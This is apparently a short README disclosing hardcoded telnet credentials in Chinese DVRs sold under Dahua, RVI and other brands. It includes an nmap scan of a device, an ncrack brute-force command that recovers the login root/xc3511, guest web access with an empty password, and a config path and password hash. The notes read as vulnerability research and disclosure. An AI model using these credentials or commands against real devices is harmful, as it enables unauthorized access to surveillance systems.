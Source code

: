#Hardcoded telnet login\password in Chinese DVR, like Dahua, RVI.</h1>
[English](README.md)[Русский](README-ru.md)
Also, it can be rebranded and sell under a different name.
Nmap report looks interesting:
'''
Nmap scan report for 192.168.100.15
Host is up (0.0050s latency).
Not shown: 65527 closed ports

PORT      STATE    SERVICE        VERSION

23/tcp    open     telnet         BusyBox telnetd
81/tcp    open     http           uc-httpd 1.0.0 #Web-ui, You can get guest access with guest\<empty> credentials
445/tcp   filtered microsoft-ds
4090/tcp  open     ssl/omasgport?
9527/tcp  open     unknown
9528/tcp  open     unknown
34567/tcp open     dhanalakshmi? #This port using for remote veiw in CMS
34599/tcp open     unknown

Device type: WAP
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.36
OS details: DD-WRT v24-sp1 (Linux 2.4.36)
Network Distance: 5 hops
Service Info: Host: LocalHost

And, with ncrack i "recover" hardcored telnet creds.
'''
ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
Discovered credentials for telnet on 192.168.100.15 23/tcp:
192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
Ncrack done: 1 service scanned in 27.06 seconds.
Ncrack finished.
'''
Web-ui configuration files are stored in /mnt/mtd/Config/, but i did not understand password hash in file Account1.
Also, in my case sed did not work. Empty password hash - tlJwpbo6.

Still work on this.
